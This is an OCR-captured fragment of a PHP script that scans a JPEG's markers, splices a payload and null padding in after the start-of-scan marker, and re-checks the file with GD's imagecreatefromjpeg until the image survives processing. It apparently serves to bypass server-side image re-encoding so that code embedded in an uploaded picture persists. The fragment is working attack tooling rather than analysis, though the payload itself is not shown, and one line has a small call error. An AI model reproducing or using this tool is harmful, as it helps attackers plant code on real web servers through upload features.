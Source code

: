 ```php
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
```